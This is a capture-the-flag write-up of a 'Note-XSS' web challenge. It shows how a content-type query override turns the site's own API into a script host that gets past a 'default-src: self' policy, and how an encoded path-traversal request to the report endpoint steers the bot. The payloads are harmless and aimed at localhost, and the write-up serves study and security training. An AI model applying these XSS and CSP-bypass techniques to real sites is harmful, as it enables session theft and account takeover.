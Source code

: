 ```yaml
---
created: 2024-12-07T14:26
updated: 2024-12-08T13:44
solves: 54
points: 191
---
```


Note-XSS challenge, with CSP `default-src: self` and restricted report url.
## probe

- can access raw body via `/api/posts/[id]/body`
- We can change content type via `/path?contentType=text/javascript`

```ts
app.get(
    "*",
    handleAsync(async (req, res, next) => {
        const { error, data: query } = await assetsQuerySchema.safeParseAsync(req.query)
        if (!error) {
            res.header("content-type", query.contentType)
        }
...
```

It appears that `res.header` is set for every single path, as long as the query variable is set.
## csp

Using Google's CSP detector, we can see that the vulnerable CSP seems to be `default-src: self`.

How do we exploit this?

We can exploit the api endpoints to host JS files for us.

```js [payload A]
console.log("external script")
```

```html [payload B]
<script src="/api/posts/1/body?contentType=text/javascript"></script>
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733640901/2024/12/6fbd95c74bf12b3877d62659ab914a7b.png)

## xss

However to make the bot access body via `/api` directly isn't easy, I got stuck here and my teammate @T!T4N solved it.

The solution is to inject the report endpoint's url param.

```python
import requests

r = requests.post("http://localhost:3300/posts/23%2e%2e%2f%2e%2e%2f%2e%2e%2fapi%2fposts%2f21%3fcontentType=text%2fhtml/report")
print(r.text)

# http://localhost:3300/api/posts/21?contentType=text/html
```
